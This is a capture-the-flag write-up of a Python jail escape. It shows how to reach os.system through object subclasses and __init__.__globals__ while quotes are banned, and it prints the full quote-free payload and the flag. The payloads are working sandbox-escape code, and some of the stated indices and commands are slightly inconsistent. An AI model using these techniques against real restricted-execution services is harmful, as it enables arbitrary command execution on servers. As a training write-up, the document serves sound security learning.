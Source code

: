 ## Description:
The extraterrestrials have upgraded their authentication system and now only them are able to pass. Did you manage to learn their language well enough in order to bypass the the authorization check?

## Methodology

This challenges has us placed in a python jail where we can provide very liminted input. Providing malformed input can get us a useful error message that gives us a little insight into what exactly this jail is doing.
```python
File "/app/build_yourself_in.py", line 13, in main
    exec(text, {'__builtins__': None, 'print':print})
```
This tells us that our input code is running inside of a locked down exec() call. With **\_\_builtins\_\_** being set to a None object we know that the only function we have available to us is print. However, we can find another restriction in the fact that if we try to run **print("test")** we get this message.
```
🛑No quotes are allowed! 🛑

Exiting..
```
This is an important restriction to know about and one we will come back to later.
For now the goal is to run some functions that have supposedly been removed from our environment with ```'__builtins__': None```.
One thing we do have access to inside of this prompt is the use of tuples. Tuples are simple objects in python that allow for immutable lists. An empty tuple can be created as ```()``` in python. This may not seem very helpful on it's own, but what's important about tuples in python is that they inherit from the **Object** class.
using the python built-in attribute __class__ and __bases__ we're able to return a tuple containing the classes that an object inherits from.
```python
print(().__class__.__bases__)
#Results in <class 'object'>
```
This is really good news for us as it means we can now access any of the other classes that are used in this program that also inherit from object. We can get a nice list of these different classes by running ```().__class__.__bases__[0].__subclasses__()``` which returns an array containing all of the subclasses of object that have been imported into this program.
I cleaned up the output and got the following list
```python
class 'type'
class 'weakref'
class 'weakcallableproxy'
class 'weakproxy'
class 'int'
class 'bytearray'
class 'bytes'
class 'list'
class 'NoneType'
class 'NotImplementedType'
class 'traceback'
class 'super'
class 'range'
class 'dict'
class 'dict_keys'
class 'dict_values'
class 'dict_items'
class 'dict_reversekeyiterator'
class 'dict_reversevalueiterator'
class 'dict_reverseitemiterator'
class 'odict_iterator'
class 'set'
class 'str'
class 'slice'
class 'staticmethod'
class 'complex'
class 'float'
class 'frozenset'
class 'property'
class 'managedbuffer'
class 'memoryview'
class 'tuple'
class 'enumerate'
class 'reversed'
class 'stderrprinter'
class 'code' [35]
class 'frame'
class 'builtin_function_or_method'
class 'method'
class 'function'
class 'mappingproxy'
class 'generator'

...
class 'bytes_iterator'
class 'bytearray_iterator'
class 'dict_keyiterator'
class 'dict_valueiterator'
class 'list_iterator'
class 'list_reverseiterator'
class 'range_iterator'
class 'set_iterator'
class 'str_iterator'
class 'tuple_iterator'
class 'collections.abc.Sized'
class 'collections.abc.Container'
class 'collections.abc.Callable'
class 'os._wrap_close'
class '_sitebuiltins.Quitter'
class '_sitebuiltins._Printer'
class '_sitebuiltins._Helper'
```
This is an incredibly long list, but out of it there are a couple important classes for what we're trying to accomplish.

```class 'str'``` is at postition 21 in the array and could be used to build a string without us inputting quotes.

```class 'os._wrap_close'``` is at position 132 and could be used to access the os.system() function for running commands on the server.
We will start tinkering with the os._wrap_close class first.
Doing some googling I came across this [article](https://blog.p6.is/Python-SSTI-exploitable-classes/) discussing vulnerable python classes.

At the bottom of the article they provide sample code to access system("ls") from os.__wrap_close
```python
[].__class__.__mro__[1].__subclasses__()[127].__init__.__globals__['system']('ls')
```
This shows that if you have the os._wrap_close class you can walk up the reference using ```__init__.__globals__``` to get a dictionary of all the functions that class implements.

We can combine this with our previous command to get a long list of all functions we have access to through OS.
```python
print(().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)
```
This outputs
```
{'__name__': 'os', '__doc__': "OS routines for NT or Posix depending on what system we're on.\n\nThis exports:\n  - all functions from posix or nt, e.g. unlink, stat, etc.\n  - os.path is either posixpath or ntpath\n  - os.name is either 'posix' or 'nt'\n  - os.curdir is a string representing the current directory (always '.')\n  - os.pardir is a string representing the parent directory (always '..')\n  - os.sep is the (or a most common) pathname separator ('/' or '\\\\')\n  - os.extsep is the extension separator (always '.')\n  - os.altsep is the alternate pathname separator (None or '/')\n  - os.pathsep is the component separator used in $PATH etc\n  - os.linesep is the line separator in text files ('\\r' or '\\n' or '\\r\\n')\n  - os.defpath is the default search path for executables\n  - os.devnull is the file path of the null device ('/dev/null', etc.)\n\nPrograms that import and use 'os' stand a better chance of being\nportable between different platforms.  Of course, they must then\nonly use functions that are defined by all platforms (e.g., unlink\nand opendir),
...
'system': <built-in function system>
...
```
In the middle of this incredibly long output we find the entry for **system**.
Perfect, we're almost there!

Now we have the address the elephant in the room... we still can't use quotes of any kind to build a string.<br />
The original code we want to run is ```print(().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['system']('ls'))```. We can do all of this except for the **system** and **ls** strings.<br />
To get around this we need to go back to the str class we found previously in the class dump. The useful aspect of this function comes from the fact that if you give it a dictionary or array, it will return the string version of that object. In python string objects can be substringed with indices the same way you would an array.
```python
print(str({'__name__': 'os'})[4]) #This results the letter n being printed
```
With this in mind we just need to pass in an object that has all the characters we need to build the string for **system** and **ls**. I decided to pass in the large function dump we got from running the above ```__init__.__globals__``` code. With this long string for our use in substringing we are now able to piece together the strings we need. I wrote a small [script](https://github.com/dwolfe884/CTFWriteups/blob/main/misc/HTBCTF_BuildYourselfIn/builder.py) to build the payload for me.

The final payload I ended up using to cat out the flag.txt file was
```python
print(().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__[().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[79]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[78]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[79]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[80]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[81]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[82]](().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[155]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[79]))
```
This returns our flag
```
CHTB{n0_j4il_c4n_h4ndl3_m3!}
```
